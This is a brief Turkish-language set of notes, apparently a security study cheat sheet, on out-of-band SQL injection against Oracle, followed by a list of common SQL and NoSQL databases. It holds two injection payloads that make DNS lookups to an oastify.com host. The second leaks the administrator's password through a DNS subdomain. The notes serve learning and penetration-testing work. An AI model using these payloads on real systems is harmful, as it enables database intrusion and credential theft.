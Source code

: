 **OAST TEKNİKLERİ :**
Veritabanı DNS ile etkileşim kurabiliyor mu diye öğrenmek için :
```sql
'|| UTL_INADDR.GET_HOST_ADDRESS('cdt2afnakmekb3yikb8mea9yup0go9cy.oastify.com') ||'
```
OUT of band sorgularını daha optimize edebilmek için.
 ```SQL
 '|| UTL_INADDR.GET_HOST_ADDRESS((SELECT password FROM users WHERE username='administrator') || '.cdt2afnakmekb3yikb8mea9yup0go9cy.oastify.com') ||'
```

# Önemli yerler : 
Çoğunlukla kullanılan Database sistemleri :
- MySQL
- MariaDB
- Oracle
- PostgreSQL
- MSSQL
- SQLite
NoSQL Database sistemleri:
- MongoDB
- Redis
- Cassandra
- Elasticsearch
- Firebase
- Amazon DynamoDB
